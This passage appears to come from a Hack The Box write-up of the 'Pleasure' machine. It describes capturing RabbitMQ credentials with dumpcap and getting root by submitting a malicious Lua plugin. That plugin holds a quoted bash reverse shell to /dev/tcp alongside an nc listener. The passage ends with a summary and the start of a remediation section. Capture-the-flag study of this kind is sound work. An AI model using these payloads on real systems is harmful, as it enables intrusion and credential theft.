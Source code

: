 12. **Packet Capture for Further Enumeration**
    - **Technique**: As `minotau`, ran `dumpcap -i lo -w /dev/shm/out.pcap` to capture network traffic, leveraging the Wireshark group capability. Transferred the capture file (`out.pcap`) via SCP, analyzed it with Wireshark, and identified AMQP (RabbitMQ) traffic containing credentials (`yanto:<password>`).
    - **Purpose**: Capture network traffic to identify additional credentials or services for escalation.
    - **Outcome**: Obtained `yanto`'s password and logged in via `su yanto`, revealing a hint about submitting Cuberite plugins via RabbitMQ.

13. **Exploiting RabbitMQ for Cuberite Plugin Execution**
    - **Technique**: Used `amqp-publish` to send a URL (`http://127.0.0.1:9001/please_subscribe.lua`) to the RabbitMQ queue (`plugin_data`). Hosted a malicious Lua script (`os.execute("bash -c 'bash -i >& /dev/tcp/127.0.0.1/9002 0>&1'")`) on a local web server (`python3 -m http.server 9001`) and listened for a reverse shell (`nc -lvnp 9002`).
    - **Purpose**: Achieve root code execution by submitting a malicious Cuberite plugin via RabbitMQ.
    - **Outcome**: Successfully obtained a root shell, allowing access to `root.txt`.

14. **Firewall Enumeration and Additional Exploitation Attempt**
    - **Technique**: As root, enumerated firewall rules using `ufw status numbered` and `iptables -L -n`, identifying that port 11211 (Memcached) was allowed bidirectionally. Attempted to exploit the Erlang cookie (`/var/lib/rabbitmq/.erlang.cookie`) for RabbitMQ but failed due to unfamiliarity with Erlang's `net_kernel:connect/1`.
    - **Purpose**: Explore additional attack vectors (Erlang cookie for RabbitMQ cluster access) and understand firewall restrictions.
    - **Outcome**: Confirmed Memcached's bidirectional access as a potential reverse shell port but did not pursue Erlang exploitation further due to complexity.

## Summary
The exploitation process involved:
- **Initial Access**: Gained through a malicious Minecraft plugin uploaded via the admin panel, exploiting the plugin system's ability to execute arbitrary Java code.
- **Privilege Escalation**: Achieved by writing an SSH key for `minotau` and a PHP web shell, followed by capturing network traffic to obtain `yanto`'s credentials, and finally submitting a malicious Lua script via RabbitMQ to gain a root shell.
- **Key Techniques**: Nmap scanning, virtual host enumeration, reverse image search, Git repository dumping, Memcached brute-forcing, password cracking, Java plugin development, SSH key injection, packet capture with Wireshark, and RabbitMQ exploitation with a Lua script.

This sequence reflects the attacker's progression from reconnaissance to root access, leveraging multiple vulnerabilities in the Minecraft server, Memcached, and RabbitMQ systems.

## Security Gaps and Remediation

Below is a detailed analysis of the gaps in each service or system identified in the "Pleasure" machine from Hack The Box, as described in the provided transcript. For each gap, I've outlined the vulnerability, its impact, and recommended fixes, focusing on proper source code or configuration changes to secure the systems. The fixes are designed to address the specific vulnerabilities exploited in the walkthrough while ensuring the systems remain functional.

---
